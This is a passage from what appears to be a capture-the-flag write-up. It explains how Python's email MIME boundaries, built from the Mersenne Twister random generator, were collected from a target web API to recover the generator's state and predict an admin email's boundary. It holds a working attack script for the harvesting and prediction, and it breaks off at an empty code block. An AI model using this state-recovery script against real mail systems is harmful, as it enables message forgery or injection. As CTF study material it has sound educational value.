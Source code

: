 ```python
        counter = 0
        while True:
            cre = cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
            if not cre.search(text):
                break
            b = boundary + '.' + str(counter)
            counter += 1
        return b
```
Im not too good at crypto so I just know there is a tool to crack it by collecting too much boundaries and predict . Here is the script 
```python
def get_boundary(s) -> int:
    data = {
        "to": "user@ses",
        "subject": 'hi',
        "body": "faewfef"
    }
    res  = s.post(url+'/api/send',json = data,headers=headers)
    print(res.text)
    a = res.text.strip('"')  # Remove surrounding quotes
    res  = s.get(url+'/api/email/'+a,json = data,headers=headers)
    boundary = re.findall(r"===============(\d+)==",res.json().get('data'))[0]
    return int(boundary)
import randCracker # https://github.com/icemonster/symbolic_mersenne_cracker/blob/main/main.py

def error(text):
	print(f"[\x1b[41mERROR\x1b[0m] {text}")
	sys.exit()

def info(text):
	print(f"[\x1b[32;1m+\x1b[0m] {text}")

ut = randCracker.Untwister()
for _ in range(800):
    b = bin(get_boundary(s))[2:].zfill(63)
    half1, half2 = b[:31], b[31:]
    half1 = half1 + '?'
    ut.submit(half2)
    ut.submit(half1)
    
r2 = ut.get_random()
# Let's send one more email to ourself and see if our prediction's correct.
info("State solved!") if r2.getrandbits(63) == get_boundary(s) else error("Boundary prediction failed.")
_ = r2.getrandbits(63) # skip over the email we send
print("CURRENT MUST BE ",_)
# Admin's boundary string!
converted_num = str(int(r2.getrandbits(63)))  # Convert to int and back to string
smileBOundary = converted_num
print(f"THIS IS SMILE SIGN BOUNDARY : {smileBOundary}")
admin_boundary = '%019d' % r2.getrandbits(63)
print(f"THIS MUST BE RIGHT  : {admin_boundary}")
print(f"FOUNDDDDDDDDDDDD next: {r2.getrandbits(63)}")
print(f"FOUNDDDDDDDDDDDD next: {r2.getrandbits(63)}")
```
## FINAL PROBLEM
- Now we simply use the predicted boundary and get flag right ? 
![image](https://hackmd.io/_uploads/H1hnAxlpyx.png)
- What happening to our boundary ? It adds .0 after ? 
- Look at the make_boundary to understand why 
```python
```